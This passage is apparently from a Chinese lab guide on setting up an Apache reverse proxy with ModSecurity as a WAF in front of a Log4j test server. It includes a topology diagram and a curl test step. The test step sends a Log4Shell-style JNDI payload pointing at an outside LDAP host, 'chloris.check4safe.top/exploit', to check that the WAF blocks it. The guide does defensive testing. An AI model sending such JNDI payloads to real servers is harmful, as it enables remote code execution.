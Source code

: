 重启 Apache：
```bash
sudo systemctl restart apache2
```
- Apache 将开始监听 81 端口，并将所有请求通过反向代理转发到 23509 端口。


- **目前的拓扑图:**
```bash
+-------------------+       +-------------------+       +-------------------+
|      Client       | ----> |     WAF (Apache   | ----> |   Target Server   |
|    (curl 请求)    |       |   + ModSecurity)  |       | (Log4j 测试环境) |
+-------------------+       +-------------------+       +-------------------+
        |                           |                           |
        | 1. 发送请求到 81        | 2. iptables 重定向到 23509    | 3. 处理请求
        | ------------------------> | ------------------------> |
        |                           |                           |
        |                           | 4. 拦截恶意请求             |
        |                           | (返回 403 Forbidden)       |
        | <------------------------ |                           |
        |                           |                           |
        |                           | 5. 记录日志                |
        |                           | (modsec_audit.log)         |
```

---

##### [8] 测试 WAF 是否拦截恶意请求
运行以下命令测试 WAF 是否拦截包含 `jndi:` 的请求：
```bash
curl -X POST http://192.168.20.6:81/ -d "param1=jndi:ldap://chloris.check4safe.top/exploit"
```
- 通过 curl 命令向 81 端口发送一个包含 jndi: 的恶意请求。
- 如果 WAF 配置正确，应该返回 403 Forbidden，表示请求被拦截。
- 如果请求被拦截，ModSecurity 会在日志文件中记录详细的请求信息。
![1742800512003](image/record/1742800512003.png)

---
